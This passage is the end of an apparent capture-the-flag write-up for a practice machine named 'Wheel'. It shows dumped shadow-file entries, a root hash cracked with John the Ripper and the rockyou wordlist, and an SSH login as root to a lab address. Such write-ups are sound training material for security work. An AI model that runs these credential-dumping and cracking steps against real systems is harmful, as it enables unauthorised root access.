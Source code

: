 ```
sshd:*:18634:0:99999:7:::
systemd-coredump:!!:18634::::::
lxd:!:18634::::::
usbmux:*:18864:0:99999:7:::
bob:$6$9hcN2TDv4v9edSth$KYm56Aj6E3OsJDiVUOU8pd6hOek0VqAtr25W1TT6xtmGTPkrEni24SvBJePilR6y23v6PSLya356Aro.pHZxs.:19123:0:99999:7:::
mysql:!:19123:0:99999:7:::
```

Now lets crack the root password

```
┌──(venv)─(mark__haxor)-[~/_/B2B/Pg/Practice/Wheel]
└─$ nano hash
                                                                                                                                                                                                                   
┌──(venv)─(mark__haxor)-[~/_/B2B/Pg/Practice/Wheel]
└─$ john -w=/home/mark/Documents/rockyou.txt hash 
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
highschoolmusical (root)     
1g 0:00:00:03 DONE (2023-01-23 16:10) 0.2747g/s 1828p/s 1828c/s 1828C/s shearer..aditya
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Now we can ssh as root xD

```
┌──(venv)─(mark__haxor)-[~/_/B2B/Pg/Practice/Wheel]
└─$ ssh root@192.168.66.202                                 
root@192.168.66.202's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 23 Jan 2023 03:14:54 PM UTC

  System load:  0.0               Processes:               220
  Usage of /:   60.0% of 9.78GB   Users logged in:         0
  Memory usage: 49%               IPv4 address for ens160: 192.168.66.202
  Swap usage:   0%


10 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Jan 23 15:11:16 2023 from 192.168.49.66
root@wheels:~# ls -al
total 44
drwx------  7 root root 4096 Jan 23 13:50 .
drwxr-xr-x 20 root root 4096 Jan  7  2021 ..
lrwxrwxrwx  1 root root    9 May 11  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 May 11  2022 .cache
```